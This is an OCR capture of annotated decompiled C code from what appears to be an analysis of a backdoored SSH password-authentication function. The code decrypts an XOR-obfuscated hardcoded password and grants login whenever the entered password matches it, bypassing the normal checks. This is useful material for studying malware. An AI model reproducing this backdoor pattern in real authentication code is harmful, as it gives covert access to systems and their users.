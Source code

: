 ```c
  ctxt = (Authctxt *)ssh->authctxt;
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  backdoor._28_2_ = 0xa9f4;		 // backdoor[28-30]
  ppVar1 = ctxt->pw;
  iVar8 = ctxt->valid;
  backdoor._24_4_ = 0xbcf0b5e3;		 // backdoor[24-28]
  backdoor._16_8_ = 0xb2d6f4a0fda0b3d6;	 // backdoor[16-24]
  backdoor[30] = -0x5b;			 // backdoor[30]
  backdoor._0_4_ = 0xf0e7abd6;		 // backdoor[0-4]
  backdoor._4_4_ = 0xa4b3a3f3;		 // backdoor[4-8]
  backdoor._8_4_ = 0xf7bbfdc8;		 // backdoor[8-12]
  backdoor._12_4_ = 0xfdb3d6e7; 	 // backdoor[12-16]

  pbVar4 = (byte *)backdoor; // assign a pointer to backdoor for modification

  // Application of processes to decrypt the backdoor
  while( true ) {
    pbVar5 = pbVar4 + 1; 	         // Store in pbVar5 the position of the next value
    *pbVar4 = bVar7 ^ 0x96;		 // Store xor operation value between pVar7 and '0x96' in current position (*pbVar4)
    if (pbVar5 == local_39) break;       // Terminate process
    bVar7 = *pbVar5;			 // Store value of pbVar5 in pVar7 
    pbVar4 = pbVar5;			 // Advance to next position
  }
  iVar2 = strcmp(password,backdoor);     // Compare password entered with the backdoor
  uVar3 = 1;

  // If strings are differents 
  if (iVar2 != 0) {
    sVar6 = strlen(password);
    uVar3 = 0;
    if (sVar6 < 0x401) {
      if ((ppVar1->pw_uid == 0) && (options.permit_root_login != 3)) {
        iVar8 = 0;
      }
      if ((*password != '\0') ||
         (uVar3 = options.permit_empty_passwd, options.permit_empty_passwd != 0)) {
        if (auth_password::expire_checked == 0) {
          auth_password::expire_checked = 1;
          iVar2 = auth_shadow_pwexpired(ctxt);
          if (iVar2 != 0) {
            ctxt->force_pwchange = 1;
          }
        }
        iVar2 = sys_auth_passwd(ssh,password);
        if (ctxt->force_pwchange != 0) {
          auth_restrict_session(ssh); // Restrict session
        }
        uVar3 = (uint)(iVar2 != 0 && iVar8 != 0);
      }
    }
  }
  // If are the same
  if (local_30 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar3;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
